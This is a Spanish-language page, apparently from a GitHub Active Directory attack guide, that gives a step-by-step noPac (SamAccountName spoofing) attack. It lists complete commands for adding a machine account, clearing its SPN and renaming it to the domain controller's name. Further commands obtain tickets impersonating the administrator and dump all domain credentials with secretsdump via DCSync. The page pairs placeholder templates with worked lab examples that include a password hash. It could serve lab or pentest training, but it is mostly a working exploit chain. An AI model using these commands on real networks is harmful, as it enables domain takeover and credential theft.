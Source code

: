 # SamAccountName (nopac)

Para este ataque se va a añadir un ordenador, borrar el SPN de ese ordenador, renombrar el ordenador con el mismo nombre que el DC, obtener un TGT para ese ordenador, restablecer el nombre del ordenador a su nombre original, obtener un ticket de servicio con el TGT que obtuvimos anteriormente y finalmente dcsync :)


```Bash
# Comprobamos que el equipo es vulnerable a nopac
poetry run crackmapexec smb <ip del DC> -u <user> -p <pass> -M nopac
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid.gif?raw=true "Check NoPac")

```Bash
# Necesitamos una versión específica de impacket para los scripts renameMachine.py y getST.py
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
cd ..
git clone https://github.com/dirkjanm/krbrelayx
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid2.gif?raw=true "Descargando herramientas necesarias")

```Bash
# Añadimos un nuevo equipo
#~ python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/arya.stark:Needle'
python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> '<dominio>/<user>:<pass>'
# Borramos el SPN del equipo con el script que debemos sacar del repositorio: https://github.com/dirkjanm/krbrelayx
#~ python addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\arya.stark' -p 'Needle' 'winterfell.north.sevenkingdoms.local'
python addspn.py --clear -t 'samaccountname$' -u '<dominio>/<user>' -p 'pass' '<nombre completo del DC en el dominio>'
# Renombrar el nuevo equipo con el nombre del DC
#~ python renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/arya.stark:Needle
python renameMachine.py -current-name 'samaccountname$' -new-name '<nombre DC>' -dc-ip '<nombre completo del DC en el dominio>' <dominio>/<user>:<pass>
# Obtenemos el TGT
#~ python getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
python getTGT.py -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>':'<pass equipo>'
# Devolvemos el nuevo equipo al nombre oriaginal
#~ python renameMachine.py -current-name 'winterfell' -new-name 'samaccountname$' north.sevenkingdoms.local/arya.stark:Needle
python renameMachine.py -current-name '<nombre DC (nuevo equipo)>' -new-name 'samaccountname$' <dominio>/<user>:<pass>
# Obtenemos el ST (service ticket) con S4U2self usando el TGT previo
#~ export KRB5CCNAME=winterfell.ccache
#~ python getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
export KRB5CCNAME=<nombre DC (nuevo equipo)>.ccache
python getST.py -self -impersonate 'administrator' -altservice 'CIFS/<nombre completo del DC en el dominio>' -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' '>dominio>'/'<nombre DC (nuevo equipo)>' -debug
# DCSync presentando el ST
#~ export KRB5CCNAME=administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
#~ python secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
export KRB5CCNAME=administrator@CIFS_<nombre completo del DC en el dominio>@<dominio completo>.ccache
python secretsdump.py -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' @'<nombre completo del DC en el dominio>'
# Eliminamos el equipo creado
#~ python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' '<dominio>/Administrator'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid3.gif?raw=true "NoPac manual")
